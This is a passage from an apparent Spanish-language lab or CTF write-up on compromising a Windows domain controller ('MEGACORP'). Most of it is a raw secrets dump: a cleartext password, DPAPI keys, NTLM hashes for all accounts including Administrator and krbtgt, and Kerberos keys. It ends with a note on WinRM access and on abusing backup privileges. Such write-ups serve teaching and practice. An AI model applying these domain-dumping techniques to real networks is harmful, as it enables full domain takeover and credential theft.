MEGACORP\MULTIMASTER$:plain_password_hex:1131584290b3b726c34316e4fbb32612d2841121f7df08ad77d7d6d42f5c785ef47d2468b1c1936816ff9b2f654b8f00330b8af9ad7109ee65ffc6a56c6e3020258957329f61812e2ccec38a070cab84451ebb1797e54acc0dfa4a2353788807e82c2e67046108d752231e453c9bd120b6354c3882516cd598821d1a7b61d7984220361a7cbbe7d34726d9a200f4a430214937df5bd4b67fb765484a24895b51bbfafd203a068fa289ffb2dda27ea0b1a3e4de8101fb4aaa2c0ca2808b9ead4a0e257dbc9b4894f4586e18e3986ad165fd8c1b8ba8deace7927ea4d67a8877b52a1f13c43461819ddb76ae22a3077f98
MEGACORP\MULTIMASTER$:aad3b435b51404eeaad3b435b51404ee:3b83f189e17a5444a48ce43fec7f1deb:::
[*] DefaultPassword
MEGACORP\cyork:AlanShearer99
[*] DPAPI_SYSTEM
dpapi_machinekey:0xcb0cd2ebf20d55c4fa851eca42129b3e8d06494f
dpapi_userkey:0x13f3f90b1eec99c83ef7f6d03d89b3078156ba27
[*] NL$KM
 0000   99 4F 5D 6C 55 B9 EC B5  0C 0B D8 75 A2 88 93 E4   .O]lU......u....
 0010   C0 D9 EF C5 0D B9 40 57  92 39 9A BE 9D A5 83 ED   ......@W.9......
 0020   11 CB 71 7C AB 32 CD 11  FD 7A ED 2E AB BE F1 62   ..q|.2...z.....b
 0030   58 F2 1D 8A AC 9F AC FB  32 17 D8 EE B3 BD A5 DC   X.......2.......
NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:19b44ab9ec562fe20b35ddb7c6fc0689:::
MEGACORP.LOCAL\dai:2101:aad3b435b51404eeaad3b435b51404ee:cb8a655c8bc531dd01a5359b40b20e7b:::
MEGACORP.LOCAL\svc-sql:2102:aad3b435b51404eeaad3b435b51404ee:3a36abdc15d86766d4cd243d8557e10d:::
MEGACORP.LOCAL\sbauer:3102:aad3b435b51404eeaad3b435b51404ee:050ba67142895b5844a24d5ce9644702:::
MEGACORP.LOCAL\okent:3103:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\ckane:3104:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\kpage:3105:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\james:3106:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\cyork:3107:aad3b435b51404eeaad3b435b51404ee:06327297532725a64e1edec0aad81cfe:::
MEGACORP.LOCAL\rmartin:3108:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\zac:3109:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\jorden:3110:aad3b435b51404eeaad3b435b51404ee:90960176fcbfe36b4a69fafb3cc0b716:::
MEGACORP.LOCAL\alyx:3111:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\ilee:3112:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\nbourne:3113:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\zpowers:3114:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\aldom:3115:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\jsmmons:3116:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\pmartin:3117:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
usuario:7602:aad3b435b51404eeaad3b435b51404ee:f51df25c6dcd8404d2f88b38423b19d8:::
MULTIMASTER$:1000:aad3b435b51404eeaad3b435b51404ee:3b83f189e17a5444a48ce43fec7f1deb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:98c8f1aaae0f1a5487165b37927deb6eeadc470e0b81d7dedef4239d57288747
Administrator:aes128-cts-hmac-sha1-96:593ee7a6ac6375581b9ecdd339d817d5
Administrator:des-cbc-md5:1afee316ec6e860e
krbtgt:aes256-cts-hmac-sha1-96:a6deb907245296f7739153833b79d47ef7a9671b29606d6967e69e8077c43780
krbtgt:aes128-cts-hmac-sha1-96:8265ceeb32d72dc693156c1243f79563
krbtgt:des-cbc-md5:ef8cab25086df10d
MEGACORP.LOCAL\svc-nas:aes256-cts-hmac-sha1-96:9a4d8f1e91a3217a75128299598c7d888443d1dd6020b92c95340ff3dceed0c1
MEGACORP.LOCAL\svc-nas:aes128-cts-hmac-sha1-96:6601c77c6b491e192223a1e8fea444a9
MEGACORP.LOCAL\svc-nas:des-cbc-md5:c17a52d35babcb4a
MEGACORP.LOCAL\tushikikatomo:aes256-cts-hmac-sha1-96:a17e831cc83fb0b985df7a222f8ccf7d2ee4d855331cb6fb26d47f20010405d3
MEGACORP.LOCAL\tushikikatomo:aes128-cts-hmac-sha1-96:ce39dfd4ee60206e02ee542566bf1d17
MEGACORP.LOCAL\tushikikatomo:des-cbc-md5:a49ea116df7a8668
MEGACORP.LOCAL\andrew:aes256-cts-hmac-sha1-96:c25a2c9729cc589c1105a7ea3f97fd5bb95ac1bf7c3f43fa2219f69282c4c392
MEGACORP.LOCAL\andrew:aes128-cts-hmac-sha1-96:e762d814d6bc915ed18f7785c3493131
MEGACORP.LOCAL\andrew:des-cbc-md5:1cf7e0dc8c133ea8
MEGACORP.LOCAL\lana:aes256-cts-hmac-sha1-96:8f40c6dd1bd6d392b5ec361ee5f5370da0ab77d21883d1cf7aa2f0522c152837
MEGACORP.LOCAL\lana:aes128-cts-hmac-sha1-96:02c50a665fbe3ed69ae65c61f039e93b
MEGACORP.LOCAL\lana:des-cbc-md5:b9e95eefd952dc5e
MEGACORP.LOCAL\alice:aes256-cts-hmac-sha1-96:572b78f3faccbc392b63179f36910cf134ac7bac3ccf3f333f13460bc8b22662
MEGACORP.LOCAL\alice:aes128-cts-hmac-sha1-96:7e393b4520ffff00635e6efc539e9a7e
MEGACORP.LOCAL\alice:des-cbc-md5:04ae08e037cbe6e6
MEGACORP.LOCAL\dai:aes256-cts-hmac-sha1-96:2a0c78927c95c9431ad228e9541aa3faf8b43bfd0386ebe10946b7c5ac97bdeb
MEGACORP.LOCAL\dai:aes128-cts-hmac-sha1-96:230262301df41adcdb81b9906d3920b5
MEGACORP.LOCAL\dai:des-cbc-md5:765298e319237ad0
MEGACORP.LOCAL\svc-sql:aes256-cts-hmac-sha1-96:54760b83091aaccf79769d09f6357e9049de311369801625f07ce2788d03096e
MEGACORP.LOCAL\svc-sql:aes128-cts-hmac-sha1-96:490c9502ebbcc5fcbdf94e3dbbdfabf6
MEGACORP.LOCAL\svc-sql:des-cbc-md5:70b3daf4d902582c
MEGACORP.LOCAL\sbauer:aes256-cts-hmac-sha1-96:510973978e1825f06d42a1d7d72131cda4394ff463daa0e6f1a7c45f4f815ba0
MEGACORP.LOCAL\sbauer:aes128-cts-hmac-sha1-96:d2cd10986be29f29eeacd7aec880c913
MEGACORP.LOCAL\sbauer:des-cbc-md5:df0b792ab9913ef1
MEGACORP.LOCAL\okent:aes256-cts-hmac-sha1-96:73c1cde578ce842b2601b4f306a196a6e0dcf6f77aee89a361e17f7db1cc88c3
MEGACORP.LOCAL\okent:aes128-cts-hmac-sha1-96:b10a5f5891e7490659363e6b18c4ec2e
MEGACORP.LOCAL\okent:des-cbc-md5:e9e045bf0b7c3d6d
MEGACORP.LOCAL\ckane:aes256-cts-hmac-sha1-96:47e28dae2b80f58d6b0e0bbdc82c0347b54b6ab5a59c98f3277491fb2d338b22
MEGACORP.LOCAL\ckane:aes128-cts-hmac-sha1-96:ca968d05cd4a3d1aef15e113762c5b08
MEGACORP.LOCAL\ckane:des-cbc-md5:89e967b9d531f8fd
MEGACORP.LOCAL\kpage:aes256-cts-hmac-sha1-96:014431689980a6d80093bf92e7ec747e46adc3e5c130a616d121b7eca481fa6a
MEGACORP.LOCAL\kpage:aes128-cts-hmac-sha1-96:dd1113113ee2343c7613feb9721ff74a
MEGACORP.LOCAL\kpage:des-cbc-md5:5b5207f72c5d1320
MEGACORP.LOCAL\james:aes256-cts-hmac-sha1-96:54fcf58bc4d39096952f9b366a9c0d27f836b3140d91583cefdb81116e471d06
MEGACORP.LOCAL\james:aes128-cts-hmac-sha1-96:6257b8a8253e75664db277427ad7dc47
MEGACORP.LOCAL\james:des-cbc-md5:ce26230701e089ab
MEGACORP.LOCAL\cyork:aes256-cts-hmac-sha1-96:dbdcfc44a72f4c976acec9cd15bb594989634ade78a683a37d5174e3c6b3a550
MEGACORP.LOCAL\cyork:aes128-cts-hmac-sha1-96:9bf3e36f39c149c5b3dbfda949d9f61f
MEGACORP.LOCAL\cyork:des-cbc-md5:a7f491314f70430e
MEGACORP.LOCAL\rmartin:aes256-cts-hmac-sha1-96:cdee6c93315215536b47099517aaf379480f5ad6f27484512abfd286ad453b35
MEGACORP.LOCAL\rmartin:aes128-cts-hmac-sha1-96:ad4331926678013c0d10d94a43c7d8b4
MEGACORP.LOCAL\rmartin:des-cbc-md5:6b463885c28fc1ea
MEGACORP.LOCAL\zac:aes256-cts-hmac-sha1-96:5ee2033f1aef639d295c6bd85710c86b63c421b9b2982fe7956fa5a9d9f91e1b
MEGACORP.LOCAL\zac:aes128-cts-hmac-sha1-96:7c0830f5c24a978966040f1d4ba2a54b
MEGACORP.LOCAL\zac:des-cbc-md5:c2fe40f449ef6713
MEGACORP.LOCAL\jorden:aes256-cts-hmac-sha1-96:538d6436d2446bd3add5e196d7dd7ccc07bc274bec6fa8e3b58c4f6ad0080873
MEGACORP.LOCAL\jorden:aes128-cts-hmac-sha1-96:95f6e97795cfe39d41f292ca05aad9dc
MEGACORP.LOCAL\jorden:des-cbc-md5:4576891aae9beff1
MEGACORP.LOCAL\alyx:aes256-cts-hmac-sha1-96:2813dbd8e4a8505747c0d024ddaf26bdb81bed46d3fd06c686c836a4995e8baf
MEGACORP.LOCAL\alyx:aes128-cts-hmac-sha1-96:b7f01ebc755d5b4f0e490291f1258475
MEGACORP.LOCAL\alyx:des-cbc-md5:31798513ae807fe5
MEGACORP.LOCAL\ilee:aes256-cts-hmac-sha1-96:d11ec507be904edcf375a5b448b2ba38b6e4b110ee7bf2ee839cf18a0879d353
MEGACORP.LOCAL\ilee:aes128-cts-hmac-sha1-96:7441bd13486a990a24410504f7b5b45e
MEGACORP.LOCAL\ilee:des-cbc-md5:6d758f19674ff192
MEGACORP.LOCAL\nbourne:aes256-cts-hmac-sha1-96:309803ce49001b289cebe3098ea626a6f181d4f6a4c82f16c7075839ff865a97
MEGACORP.LOCAL\nbourne:aes128-cts-hmac-sha1-96:afd355fd0695835244d50e494b91a551
MEGACORP.LOCAL\nbourne:des-cbc-md5:dc385d1a83912008
MEGACORP.LOCAL\zpowers:aes256-cts-hmac-sha1-96:180e9050590393d1e1e5b7a5d2f971eb5ebc99306ae57806f949a477dc32a7bc
MEGACORP.LOCAL\zpowers:aes128-cts-hmac-sha1-96:eb02dd1db27233dbadc106ddfb82ec1c
MEGACORP.LOCAL\zpowers:des-cbc-md5:7976f2138083160e
MEGACORP.LOCAL\aldom:aes256-cts-hmac-sha1-96:1490c171e00ce0460fba0314aa8ff359a82c6ac2c2713c85160ccae578299a1b
MEGACORP.LOCAL\aldom:aes128-cts-hmac-sha1-96:53a9a2c24bd67e3361b2d9efe92037a6
MEGACORP.LOCAL\aldom:des-cbc-md5:8fcb54e53e2f261f
MEGACORP.LOCAL\jsmmons:aes256-cts-hmac-sha1-96:06e3cc359533ecb2f582108082530997500073035c01643a7fea7cba851f471b
MEGACORP.LOCAL\jsmmons:aes128-cts-hmac-sha1-96:94410da2abdf4e963859e62846bac102
MEGACORP.LOCAL\jsmmons:des-cbc-md5:bf522ab36d315b49
MEGACORP.LOCAL\pmartin:aes256-cts-hmac-sha1-96:356a94ed6163d042d9d87b28aa327031c59f5f76aa837fd68429ee1f21baaa9c
MEGACORP.LOCAL\pmartin:aes128-cts-hmac-sha1-96:6ac67d30242db1e246c84467ccae3173
MEGACORP.LOCAL\pmartin:des-cbc-md5:cdcda7c44970f445
usuario:aes256-cts-hmac-sha1-96:9a24ce9945153f1784e8419c7538eb378c5813febe4435753dc9b1b71851d8ac
usuario:aes128-cts-hmac-sha1-96:c05c33cfbecfed6ec51253abab5b5410
usuario:des-cbc-md5:15e33d8f524fc79b
MULTIMASTER$:aes256-cts-hmac-sha1-96:2d3be29fa7a06a73e2b40b2e4c4b8e8b58d5e633955f11bae5d691473ffa1b87
MULTIMASTER$:aes128-cts-hmac-sha1-96:43f09b3c121d6c4db6f10d1c71d5b2f8
MULTIMASTER$:des-cbc-md5:86c8fb58f1da9bea
[*] Cleaning up...
```

Una  vez  obtenidas  las  credenciales  del  administrador,  se  estableció  una  sesión  mediante  WinRM,
consolidando el control total sobre el dominio.

 

Durante  la  enumeración  previa  también  se  identificó  que  el  usuario  jorden  disponía  de  los  privilegios
SeBackupPrivilege y SeRestorePrivilege, dos permisos de alto impacto que permiten realizar copias y
restauraciones de archivos protegidos.

 

Estos privilegios habilitan técnicas como la copia de archivos sensibles mediante robocopy, incluyendo
bases de datos del sistema, hives del registro o componentes críticos del controlador de dominio, lo que
constituye otro vector viable para la obtención de credenciales o la escalada de privilegios.

 
